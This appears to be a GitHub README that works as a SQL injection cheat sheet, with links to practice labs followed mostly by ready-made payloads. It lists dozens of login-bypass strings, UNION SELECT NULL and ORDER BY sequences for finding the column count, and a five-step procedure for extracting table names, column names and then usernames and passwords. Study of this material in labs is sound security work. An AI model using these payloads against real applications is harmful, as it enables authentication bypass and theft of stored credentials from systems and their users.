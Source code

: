 # Resources
- [Learn about SQL injection](https://portswigger.net/web-security/sql-injection)
- [Learn and practice SQLi](https://tryhackme.com/room/sqlilab)
- [Pracice SQLi on bWAPP](http://www.itsecgames.com/)

# Payloads

## Retriving hidden data
```sql
' or 1=1-- -
' or 1=1--
' --

```
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypassing
Note: Remember, sometimes you have to repleace 'admin' for another username. Here, 'admin' is just an example.
```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
- [How to bypass login authentication (Article)](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Determining the number of columns returned by the query with UNION SELECT NULL-- -
```sql
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
etc...
```
## Determining the number of columns returned by the query with UNION SELECT NULL--
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
etc...
```
## Determining the number of columns returned by the query with ORDER BY--
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
' ORDER BY 5--
' ORDER BY 6--
' ORDER BY 7--
' ORDER BY 8--
' ORDER BY 9--
' ORDER BY 10--
' ORDER BY 11--
' ORDER BY 12--
etc...
```
## Determining the number of columns returned by the query with ORDER BY-- -
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -
' ORDER BY 6-- -
' ORDER BY 7-- -
' ORDER BY 8-- -
' ORDER BY 9-- -
' ORDER BY 10-- -
' ORDER BY 11-- -
' ORDER BY 12-- -
etc...
```
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Listing the database contents on non-Oracle databases (Method 1)
1. Determinate the name of the databases
```sql
' UNION SELECT database()--
``` 
2. Determinate the number of columns usion UNION SELECT or ORDER BY
```sql
' UNION SELECT 'abc','def'--
' ORDER BY 2-- -
```
3. Determinate the tables into the database
```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
``` 
4. Determinate the columns stored into tables
```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```
5. Once we have the information of the columns, we dump the information
```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```
## Listing the database contents on non-Oracle databases (Method 2)
- [Practice this payload here](https://youtu.be/-haHnsBAPb8?t=638)
